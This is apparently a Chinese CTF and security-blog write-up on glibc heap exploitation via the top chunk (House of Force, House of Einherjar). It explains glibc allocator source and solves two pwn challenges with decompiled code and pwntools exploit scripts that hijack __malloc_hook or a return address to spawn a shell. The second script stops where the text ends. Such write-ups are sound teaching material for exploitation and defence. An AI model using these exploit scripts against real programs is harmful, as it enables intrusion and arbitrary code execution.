



# 针对top chunk的一些特殊攻击手法 - 先知社区

针对top chunk的一些特殊攻击手法

* * *

# House Of Force

## 介绍

house of force 主要利用 top chunk 的漏洞  
通过修改topchunk\_size来进行攻击  
利用 top chunk 分割的漏洞来申请任意 chunk，  
然后再劫持 hook 或者更改 got表

## top chunk的分割机制和利用方法

```plain
victim = av->top; /* 获取addr of top chunk */
size   = chunksize(victim); /* 获取top chunk size */
if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE)) 
{
    remainder_size = size - nb; /* 计算剩下的size */
    remainder      = chunk_at_offset(victim, nb); 
    av->top        = remainder; /* 修改top chunk */
    set_head(victim, nb | PREV_INUSE |
            (av != &main_arena ? NON_MAIN_ARENA : 0)); /* 设置top chunk的头 */
    set_head(remainder, remainder_size | PREV_INUSE); /* 设置剩下chunk的头 */

    check_malloced_chunk(av, victim, nb);
    void *p = chunk2mem(victim);
    alloc_perturb(p, bytes);
    return p;
}
```

只有 top chunk 的 size 大于等于申请的 size，才会有后续操作  
top chunk大小检查时用的数据类型是 unsigned long，如果能通过一些漏洞（比如堆溢出）将 top chunk 的 size 字段篡改成 -1 或者 0xffffffffffffffff，那么在做这个检查时，size 就变成了无符号整数中最大的值，这样一来，不管用户申请多大的堆空间都可以满足条件，此外，虽然此处的检查中，用户申请的大小也被当做无符号整型对待，但是在后面扩展 top chunk 的时候是作为 int 对待的

## 利用条件

用户能够篡改 top chunk 的 size 字段（篡改为负数或很大值）  
用户可以申请任意大小的堆内存（包括负数）

### libc-2.23

```plain
/* Try to use top chunk */
  /* Require that there be a remainder, ensuring top always exists  */
  if ( (remainder_size = chunksize(top(ar_ptr)) - nb) < (long)MINSIZE)
  {


    /* If the request is big and there are not yet too many regions,
       and we would otherwise need to extend, try to use mmap instead.  */
    if ((unsigned long)nb >= (unsigned long)mmap_threshold &&
        n_mmaps < n_mmaps_max &&
        (victim = mmap_chunk(nb)) != 0)
      return victim;
      /* 如果申请字节超过“topchunk->size”,调用mmap_chunk */


    /* Try to extend */
    malloc_extend_top(ar_ptr, nb);
    if ((remainder_size = chunksize(top(ar_ptr)) - nb) < (long)MINSIZE)
    {

      /* A last attempt: when we are out of address space in a
         non-main arena, try mmap anyway, as long as it is allowed at
         all.  */
      if (ar_ptr != &main_arena &&
          n_mmaps_max > 0 &&
          (victim = mmap_chunk(nb)) != 0)
        return victim;
        /* 如果,第一次调用mmap_chunk没有成功,则再调用一次 */

      return 0; /* propagate failure */
    }
  }
  victim = top(ar_ptr);
  set_head(victim, nb | PREV_INUSE); /* 设置top chunk的头 */
  top(ar_ptr) = chunk_at_offset(victim, nb);
  set_head(top(ar_ptr), remainder_size | PREV_INUSE); /* 设置剩下chunk的头 */
  check_malloced_chunk(ar_ptr, victim, nb); /* 这个检查几乎没有影响 */
  return victim;
```

通过“topchunk->size”判断是否调用“mmap\_chunk”  
完全可以打 House Of Force

### libc-2.27

```plain
if (av != &main_arena)
    {
      heap_info *old_heap, *heap;
      size_t old_heap_size;

      /* First try to extend the current heap. */
      old_heap = heap_for_ptr (old_top);
      old_heap_size = old_heap->size;
      if ((long) (MINSIZE + nb - old_size) > 0 
          /* top chunk不够用，grow_heap扩展top chunk的空间 */
          /* 要打House Of Force,这个if一定不成立(old_size非常大) */
          && grow_heap (old_heap, MINSIZE + nb - old_size) == 0)
        {
          av->system_mem += old_heap->size - old_heap_size;
          set_head (old_top, (((char *) old_heap + old_heap->size) - (char *) old_top)
                    | PREV_INUSE);
        }
      else if ((heap = new_heap (nb + (MINSIZE + sizeof (*heap)), mp_.top_pad)))
        { 
          /* Use a newly allocated heap.  */
          heap->ar_ptr = av;
          heap->prev = old_heap;
          av->system_mem += heap->size;
          /* Set up the new top.  */
          top (av) = chunk_at_offset (heap, sizeof (*heap));
          set_head (top (av), (heap->size - sizeof (*heap)) | PREV_INUSE);

          /* Setup fencepost and free the old top chunk with a multiple of
             MALLOC_ALIGNMENT in size. */
          /* The fencepost takes at least MINSIZE bytes, because it might
             become the top chunk again later.  Note that a footer is set
             up, too, although the chunk is marked in use. */
          old_size = (old_size - MINSIZE) & ~MALLOC_ALIGN_MASK;
          set_head (chunk_at_offset (old_top, old_size + 2 * SIZE_SZ), 0 | PREV_INUSE);
          if (old_size >= MINSIZE) /* 需要分割 */
            {
              set_head (chunk_at_offset (old_top, old_size), (2 * SIZE_SZ) | PREV_INUSE);
              set_foot (chunk_at_offset (old_top, old_size), (2 * SIZE_SZ));
              set_head (old_top, old_size | PREV_INUSE | NON_MAIN_ARENA);
              _int_free (av, old_top, 1);
            }
          else /* 不需要分割 */
            {
              set_head (old_top, (old_size + 2 * SIZE_SZ) | PREV_INUSE);
              set_foot (old_top, (old_size + 2 * SIZE_SZ));
            }
        }
      else if (!tried_mmap)
        /* We can at least try to use to mmap memory.  */
        goto try_mmap;
    }
................
```

程序复杂了不少，也多了许多检查：

```plain
static void
do_check_chunk (mstate av, mchunkptr p)
{
  unsigned long sz = chunksize (p);
  /* min and max possible addresses assuming contiguous allocation */
  char *max_address = (char *) (av->top) + chunksize (av->top);
  char *min_address = max_address - av->system_mem;
    /* 这里就是问题的关键 */
    /* 因为“topchunk->size”被设置得非常大，所以max_address和min_address也非常大 */
    /* 这个设置范围的操作打死了House Of Force */

  if (!chunk_is_mmapped (p)) 
    {
      /* Has legal address ... */
      if (p != av->top)
        {
          if (contiguous (av))
            {
              assert (((char *) p) >= min_address);
              /* 因为min_address非常大，重新申请的chunk地址不可能大于它 */
              assert (((char *) p + sz) <= ((char *) (av->top)));
            }
        }
      else 
        {
          /* top size is always at least MINSIZE */
          assert ((unsigned long) (sz) >= MINSIZE);
          /* top predecessor always marked inuse */
          assert (prev_inuse (p));
        }
    }
  else if (!DUMPED_MAIN_ARENA_CHUNK (p))
    {
      /* address is outside main heap  */
      if (contiguous (av) && av->top != initial_top (av))
        {
          assert (((char *) p) < min_address || ((char *) p) >= max_address);
        }
      /* chunk is page-aligned */
      assert (((prev_size (p) + sz) & (GLRO (dl_pagesize) - 1)) == 0);
      /* mem is aligned */
      assert (aligned_OK (chunk2mem (p)));
    }
}
```

House Of Force 只能在 libc-2.23 中生效，因为 libc-2.23 会在检查了“topchunk->size”后就进行分割，可以直接利用，而 libc-2.27 设置了一个“范围”，限制了申请chunk的地址范围，这样就导致 top chunk 无法分割到目标地址了

## Large bin 泄露 libc\_base

### 背景知识

在glibc堆初始化时会一次划出132KB的内存大小来供程序使用，也就是说我们提到tcache/fast/small/unsorted/large都是在这132KB（0x21000）基础上产生的。那么如果直接malloc超过132KB大小的话。系统会调用mmap在libc附近分配内存，经过测试虽然大于132KB可以让其分配在libc附近，但不达到一定大小，分配的内存地址和libc的偏移是不太确定的。这里借鉴了前辈的经验，分配0x200000的内存可以让偏移固定。

```plain
#include <stdio.h>
#include <stdlib.h>

int main()
{
    malloc(0x1);  // init heap
    // 0x200000 == 2097152
    long long * ptr = malloc(2097152);
    printf("mmap addr is %p\n", ptr);

    return 0;
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230630232735-a3d68d50-175a-1.png)  
该内存块刚好是贴着libc分配的，它和libc基地址的偏移正好是这块内存区域的大小0x201000。

## gyctf\_2020\_force

### ida

[](https://xzfile.aliyuncs.com/media/upload/picture/20230630232757-b0e737ba-175a-1.png)

```plain
Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

```plain
void __fastcall __noreturn main(int a1, char **a2, char **a3)
{
  __int64 v3; // rax
  char s[256]; // [rsp+10h] [rbp-110h] BYREF
  unsigned __int64 v5; // [rsp+118h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  memset(s, 255, sizeof(s));
  while ( 1 )
  {
    memset(s, 255, sizeof(s));
    puts("1:add");
    puts("2:puts");
    read(0, nptr, 0xFuLL);
    v3 = atol(nptr);
    if ( v3 == 1 )
    {
      add_chunk();
    }
    else if ( v3 == 2 )
    {
      fake_show();
    }
  }
}
```

```plain
unsigned __int64 add_chunk()
{
  const void **i; // [rsp+0h] [rbp-120h]
  __int64 size; // [rsp+8h] [rbp-118h]
  char s[256]; // [rsp+10h] [rbp-110h] BYREF
  unsigned __int64 v4; // [rsp+118h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  memset(s, 255, sizeof(s));
  for ( i = (const void **)&unk_202080; *i; ++i )
    ;
  if ( (char *)i - (char *)&unk_202080 > 39 )
    exit(0);
  puts("size");
  read(0, nptr, 0xFuLL);
  size = atol(nptr);
  *i = malloc(size);
  if ( !*i )
    exit(0);
  printf("bin addr %p\n", *i);
  puts("content");
  read(0, (void *)*i, 0x50uLL);    // 堆溢出
  puts("done");
  return __readfsqword(0x28u) ^ v4;
}
```

```plain
unsigned __int64 fake_show()
{
  unsigned __int64 v1; // [rsp+8h] [rbp-8h]

  v1 = __readfsqword(0x28u);
  puts(&byte_D93);           //'\n'
  return __readfsqword(0x28u) ^ v1;
}
```

### 思路

这个程序对申请chunk的大小没有要求，只有add函数  
所以这里先用mmap获取libc\_base,在打个house of force

### 详细流程

首先程序申请完堆块后就会把堆块地址打印出来，所以这里直接用返回堆块的地址

```plain
def add(size,content):
    ru('2:puts\n')
    sl(str(1))
    ru('size\n')
    sl(str(size))
    ru('0x')
    data_ptr=int(p.recv(12),16)
    ru('content\n')
    s(content)
    return data_ptr
```

```plain
libc_base=add(0x200000,'aaaa')+0x200ff0
leak('libc_base',libc_base)
```

直接利用mmap的固定偏移泄露出来libc\_base，这里只是扩展了堆空间，并没有申请chunk  
如果下一步正常申请的话，还是可以看到正常的top chunk的

[](https://xzfile.aliyuncs.com/media/upload/picture/20230701145748-96eeb32e-17dc-1.png)

```plain
top_chunk_addr=add(0x10,'a'*0x10+b'/bin/sh\x00'+p64(0xffffffffffffffff))+0x10
leak('top_chunk_addr',top_chunk_addr)
```

这里写入 /bin/sh\\x00 是因为后面用og和realloc调不成功，所以用system打，这里因为有堆地址，直接申请堆地址就能执行system('/bin/sh\\x00') \[因为没有对申请的size限制，所以可以这样打\]  
修改了top chunk 的 size  
下面为了好分析，还是关掉ASLR

[](https://xzfile.aliyuncs.com/media/upload/picture/20230701145816-a73e09be-17dc-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230701145821-aaae3fec-17dc-1.png)  
原本的top chunk地址加上实际上要分配的大小等于新的top chunk地址  
所以offset=fake\_addr-0x10-0x10-top\_chunk\_addr  
offset=(malloc\_hook-0x20)-top\_chunk\_addr  
申请一下对应偏移的chunk就可以把top\_chunk扩展到fake\_chunk了  
然后直接申请后打就行了

```plain
add(offset,'kkk')
add(0x10,p64(system))
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230701145844-b86d1d1a-17dc-1.png)

```plain
p.recvuntil("2:puts\n")
p.sendline('1')
p.recvuntil("size\n")
p.sendline(str(top_chunk_addr))
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230701145857-bff60664-17dc-1.png)

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
#p=remote('node4.buuoj.cn',29025)
elf = ELF('./pwn')
#libc=ELF('./libc-2.23.so')
libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')

def duan():
    gdb.attach(p)
    pause()

def add(size,content):
    ru('2:puts\n')
    sl(str(1))
    ru('size\n')
    sl(str(size))
    ru('0x')
    data_ptr=int(p.recv(12),16)
    ru('content\n')
    s(content)
    return data_ptr


libc_base=add(0x200000,'aaaa')+0x200ff0
leak('libc_base',libc_base)

top_chunk_addr=add(0x10,'a'*0x10+b'/bin/sh\x00'+p64(0xffffffffffffffff))+0x10
leak('top_chunk_addr',top_chunk_addr)
#duan()
malloc_hook=libc.sym['__malloc_hook']+libc_base
realloc = libc.sym["__libc_realloc"]
system=libc.sym['system']+libc_base
leak('malloc_hook',malloc_hook)
offset=(malloc_hook-0x20)-top_chunk_addr
leak('offset',offset)
'''
ogs = [0x45226, 0x4527a, 0xf03a4, 0xf1247]
og=ogs[1]+libc_base
leak('og',og)
'''
add(offset,'kkk')
add(0x10,p64(system))

#duan()
p.recvuntil("2:puts\n")
p.sendline('1')
p.recvuntil("size\n")
p.sendline(str(top_chunk_addr))

#duan()
itr()
```

# House Of Einherjar

## 介绍

house of einherjar 跟 house of force 差不多，最终目的都是控制 top chunk 的值  
只不过他是向后合并

## 向后合并机制与利用方法

### libc-2.23

```plain
if (!(hd & PREV_INUSE))                    /* consolidate backward */
{ 
  prevsz = p->prev_size; 
    /* 记录相邻堆块p的prev_size值 */
  p = chunk_at_offset(p, -(long)prevsz); 
    /* 堆块p的指针最后由chunk_at_offset()函数决定 */
    /* 将原本p指针位置加上s偏移后的位置作为合并堆块的新指针(向上增加) */
  sz += prevsz; 
    /* size = size + prev_size */

  if (p->fd == last_remainder(ar_ptr))     /* keep as last_remainder */
    islr = 1;
  else
    unlink(p, bck, fwd);
    /* 检查并脱链 */
}
```

后向合并中没有多少检查，但是unlink操作会先检查 “fakechunk->size” （必须可以通过 size 索引到“last chunk”，并且P位为“0”，这样才会进行 unlink），因为“fake\_size”（offset）很大，fake chunk 会被当做是 large chunk ，所以还会格外检查 FD，BK，FDsize，BKsize  
为了实现chunkA后向合并到fake chunk 我们需要使得chunkA\_addr - chunkA\_prev\_size = fakechunk\_addr  
同时还需要使得fake\_chunk的size域和chunkA的prev\_size域相同  
并且还要注意一下fake chunk的fd域和bk域，这里需要都写入fake chunk的地址

## 2016\_seccon\_tinypad

### ida

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rax
  int choice; // eax
  int v5; // eax
  __int64 v6; // rax
  unsigned __int64 v7; // rax
  int c; // [rsp+4h] [rbp-1Ch] BYREF
  int i; // [rsp+8h] [rbp-18h]
  int index; // [rsp+Ch] [rbp-14h]
  int v12; // [rsp+10h] [rbp-10h]
  int v13; // [rsp+14h] [rbp-Ch]
  unsigned __int64 v14; // [rsp+18h] [rbp-8h]

  v14 = __readfsqword(0x28u);
  v12 = 0;
  write_n((__int64)&unk_4019F0, 1LL);
  write_n(
    (__int64)"  ============================================================================\n"
             "// _|_|_|_|_|  _|_|_|  _|      _|  _|      _|  _|_|_|      _|_|    _|_|_|     \\\\\n"
             "||     _|        _|    _|_|    _|    _|  _|    _|    _|  _|    _|  _|    _|   ||\n"
             "||     _|        _|    _|  _|  _|      _|      _|_|_|    _|_|_|_|  _|    _|   ||\n"
             "||     _|        _|    _|    _|_|      _|      _|        _|    _|  _|    _|   ||\n"
             "\\\\     _|      _|_|_|  _|      _|      _|      _|        _|    _|  _|_|_|     //\n"
             "  ============================================================================\n",
    563LL);
  write_n((__int64)&unk_4019F0, 1LL);
  do
  {
    for ( i = 0; i <= 3; ++i )    
    {
      LOBYTE(c) = i + 49;
      writeln((__int64)"+------------------------------------------------------------------------------+\n", 81LL);
      write_n((__int64)" #   INDEX: ", 12LL);
      writeln((__int64)&c, 1LL);
      write_n((__int64)" # CONTENT: ", 12LL);
      if ( *(_QWORD *)&tinypad[16 * i + 264] )
      {
        v3 = strlen(*(const char **)&tinypad[16 * i + 264]);
        writeln(*(_QWORD *)&tinypad[16 * i + 264], v3);
      }
      writeln((__int64)&unk_4019F0, 1LL);
    }
    index = 0;
    choice = getcmd();
    v12 = choice;
    if ( choice == 'D' )                //delete
    {
      write_n((__int64)"(INDEX)>>> ", 11LL);
      index = read_int();
      if ( index <= 0 || index > 4 )   //index 范围为：1.2.3
      {
LABEL_29:
        writeln((__int64)"Invalid index", 13LL);
        continue;
      }
      if ( !*(_QWORD *)&tinypad[16 * index + 240] )
      {
LABEL_31:
        writeln((__int64)"Not used", 8LL);
        continue;
      }
      free(*(void **)&tinypad[16 * index + 248]);     // UAF 
      *(_QWORD *)&tinypad[16 * index + 240] = 0LL;    // 置空了size,没有置空指针
      writeln((__int64)"\nDeleted.", 9LL);
    }
    else if ( choice > 'D' )
    {
      if ( choice != 'E' )
      {
        if ( choice == 'Q' )
          continue;
LABEL_41:
        writeln((__int64)"No such a command", 17LL);
        continue;
      }
      write_n((__int64)"(INDEX)>>> ", 11LL);   // edit  
      index = read_int();
      if ( index <= 0 || index > 4 )
        goto LABEL_29;
      if ( !*(_QWORD *)&tinypad[16 * index + 240] )
        goto LABEL_31;
      c = 48;
      strcpy(tinypad, *(const char **)&tinypad[16 * index + 248]);//把数据复制到chunk_list(tinypad)首位
      while ( toupper(c) != 'Y' )                                  // 只要不Y就可以一直修改
      {                                                           
        write_n((__int64)"CONTENT: ", 9LL);                        // 输出数据，也许可以利用这里来leak
        v6 = strlen(tinypad);
        writeln((__int64)tinypad, v6);
        write_n((__int64)"(CONTENT)>>> ", 13LL);
        v7 = strlen(*(const char **)&tinypad[16 * index + 248]);
        read_until((__int64)tinypad, v7, 0xAu);
        writeln((__int64)"Is it OK?", 9LL);
        write_n((__int64)"(Y/n)>>> ", 9LL);
        read_until((__int64)&c, 1uLL, 0xAu);
      }
      strcpy(*(char **)&tinypad[16 * index + 248], tinypad);     // 复制回去
      writeln((__int64)"\nEdited.", 8LL);
    }
    else
    {
      if ( choice != 'A' )                      // add
        goto LABEL_41;
      while ( index <= 3 && *(_QWORD *)&tinypad[16 * index + 256] )
        ++index;
      if ( index == 4 )
      {
        writeln((__int64)"No space is left.", 17LL);
      }
      else
      {
        v13 = -1;
        write_n((__int64)"(SIZE)>>> ", 10LL);
        v13 = read_int();
        if ( v13 <= 0 )                  // size不能为负
        {
          v5 = 1;
        }
        else
        {
          v5 = v13;
          if ( (unsigned __int64)v13 > 0x100 )  // size不能超过0x100
            v5 = 256;
        }
        v13 = v5;
        *(_QWORD *)&tinypad[16 * index + 256] = v5;
        *(_QWORD *)&tinypad[16 * index + 264] = malloc(v13);
        if ( !*(_QWORD *)&tinypad[16 * index + 264] )
        {
          writerrln("[!] No memory is available.", 27LL);
          exit(-1);
        }
        write_n((__int64)"(CONTENT)>>> ", 13LL);
        read_until(*(_QWORD *)&tinypad[16 * index + 264], v13, 0xAu);  // 写入内容 off by one
        writeln((__int64)"\nAdded.", 7LL);
      }
    }
  }
  while ( v12 != 'Q' );      // quit
  return 0;
}
```

```plain
unsigned __int64 __fastcall read_until(__int64 a1, unsigned __int64 a2, int a3)
{
  unsigned __int64 i; // [rsp+28h] [rbp-18h]
  __int64 n; // [rsp+30h] [rbp-10h]

  for ( i = 0LL; i < a2; ++i )
  {
    n = read_n(0LL, a1 + i, 1LL);
    if ( n < 0 )
      return -1LL;
    if ( !n || *(a1 + i) == a3 )
      break;
  }
  *(a1 + i) = 0;                                // off by one 经典的置空末尾“\n”，造成了 off-by-null
  if ( i == a2 && *(a2 - 1 + a1) != 10 )
    dummyinput(a3);
  return i;
}
```

修改模块可以控制 chunk\_list ( tinypad ) 这一大片区域，伪造 fake\_size 绰绰有余  
最后一个chunk的“presize”直接作为相邻上一个chunk的数据区，完全可以控制  
可以考虑打 House Of Einherjar

### 详细流程

```plain
add(0xe0, "A"*0xe0)
add(0xf0, "B"*0xf0)
add(0x100, "C"*0x100)
add(0x100, "D"*0x100)
delete(3) //因为后面"chunk4->size"会被覆盖低位,所以这里只能为0x100
delete(1) //这里要先释放后申请的chunk,不然程序不会打印(不知道原因)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230701151710-4b4d2f38-17df-1.png)  
因为这个题目比较特殊，所以直接利用fd指针来泄露libc\_base 和 heap\_addr

[](https://xzfile.aliyuncs.com/media/upload/picture/20230701151718-506e02b2-17df-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230701151724-536ffbd2-17df-1.png)  
想接收这个数据，可以用  
1.p.recvuntil('\\n')\[:-1\].ljust(8,'\\x00')  
接收到 '\\n' , 但是不算上 '\\n'  
2.k&0x0000000000ffffff

```plain
ru('INDEX: 1\n')
ru('# CONTENT: ')
k=u64(r(8))
heap_addr=k&0x0000000000ffffff-0x1f0
#heap_addr=u64(p.recvuntil('\n')[:-1].ljust(8,'\x00'))
leak('heap_addr',heap_addr)

ru('INDEX: 3\n')
ru('# CONTENT: ')
libc_base=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x3c4b78
leak('libc_base',libc_base)
```

```plain
chunk_list_addr=0x602040
chunk2_addr=heap_addr+0xf0
offset=chunk2_addr-chunk_list_addr
leak('chunk_list_addr >> ',chunk_list_addr)
leak('chunk2_addr >> ',chunk2_addr)
leak('offset >> ',offset)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230701151843-831a9d1a-17df-1.png)

```plain
add(0xe8, "g"*(0xe8-0x8) + p64(offset))
```

改一下 chunk2 的pre\_size

[](https://xzfile.aliyuncs.com/media/upload/picture/20230701151858-8bb74e5a-17df-1.png)

```plain
delete(4)
```

把三四合并，让二紧邻top chunk

[](https://xzfile.aliyuncs.com/media/upload/picture/20230701151914-953d4c68-17df-1.png)

```plain
pl=p64(0x100)+p64(offset)
pl+=p64(chunk_list_addr)*4
edit(2, pl)
```

然后再fake\_chunk上设置 size 为 offset  
这里是直接写过去了，题目特点，先写到 0x602040 再 strcpy 过去，不过这个很容易就截断，所以这个题目 edit 会让人很迷

[](https://xzfile.aliyuncs.com/media/upload/picture/20230701151935-a1d7a95a-17df-1.png)

```plain
delete(2)
```

这里的pre\_size和size已经对应了，然后直接delete(2) 把chunk的P位改为0，这样就满足了 House Of Einherjar 的条件

```plain
gadget = [0x45226,0x4527a,0xf03a4,0xf1247]
gadget_addr = libc_base + gadget[3]
payload = p64(0xe8) + p64(libc_base + libc.symbols["__environ"])
payload += p64(0xe8) + p64(0x602148)
add(0xe0, "t"*0xe0)
add(0x100, payload)
```

然后申请两次chunk，在储存chunk1\_ptr的地方写入 'environ' (在 libc 中有一个全局变量'environ'，储存着该程序环境变量的地址，而环境变量是储存在栈上的，所以可以泄露栈地址，所以可以控制rip了) ,然后把chunk2\_ptr 改成 chunk1\_ptr 的地址 ，方便修改

[](https://xzfile.aliyuncs.com/media/upload/picture/20230701152047-ccd867e8-17df-1.png)  
这里的chunk\_ptr 前面的应该是size，直接写一个数就行，这里没有过多的检查，我试了试两个p64(0x100)也能打通

```plain
p.readuntil("# CONTENT: ")
stack_env=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
leak('environ',libc_base + libc.symbols["__environ"])
success("env_stack address: " + hex(stack_env))
```

这里写入 '\_\_environ' 函数然后根据题目特点把 栈地址泄露出来了

[](https://xzfile.aliyuncs.com/media/upload/picture/20230701152106-d7e0f61e-17df-1.png)  
计算一下偏移，得到 '\_\_libc\_start\_main+240' 的地址，也就是程序的返回地址

```plain
edit(2, p64(stack_env-240))
edit(1, p64(gadget_addr))
p.readuntil("(CMD)>>>")
p.sendline("Q")
```

然后修改 chunk\_ptr1 为 '\_\_libc\_start\_main+240'

[](https://xzfile.aliyuncs.com/media/upload/picture/20230701152124-e2f42008-17df-1.png)  
这样编辑 chunk2 就能把 '\_\_libc\_start\_main+240' 修改为 og了  
然后直接退出就getshell了

[](https://xzfile.aliyuncs.com/media/upload/picture/20230701152138-eaeb7fcc-17df-1.png)

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
#p=remote('node4.buuoj.cn',29025)
elf = ELF('./pwn')
#libc=ELF('./libc-2.23.so')
libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')

def duan():
    gdb.attach(p)
    pause()

def add(size,content):
    p.recvuntil('(CMD)>>> ')
    p.sendline('a')
    p.recvuntil('(SIZE)>>> ')
    p.sendline(str(size))
    p.recvuntil('(CONTENT)>>> ')
    p.sendline(content)

def delete(index):
    p.recvuntil('(CMD)>>> ')
    p.sendline('d')
    p.recvuntil('(INDEX)>>> ')
    p.sendline(str(index))

def edit(index,content):
    p.recvuntil('(CMD)>>> ')
    p.sendline('e')
    p.recvuntil('(INDEX)>>> ')
    p.sendline(str(index))
    p.recvuntil('CONTENT: ')
    p.recvuntil('(CONTENT)>>> ')
    p.sendline(content)
    p.recvuntil('(Y/n)>>> ')
    p.sendline('y')

add(0xe0, "A"*0xe0)
add(0xf0, "B"*0xf0)
add(0x100, "C"*0x100)
add(0x100, "D"*0x100)
delete(3)
delete(1)
#duan()

ru('INDEX: 1\n')
ru('# CONTENT: ')
k=u64(r(8))
heap_addr=k&0x0000000000ffffff-0x1f0
#heap_addr=u64(p.recvuntil('\n')[:-1].ljust(8,'\x00'))
leak('heap_addr',heap_addr)
ru('INDEX: 3\n')
ru('# CONTENT: ')
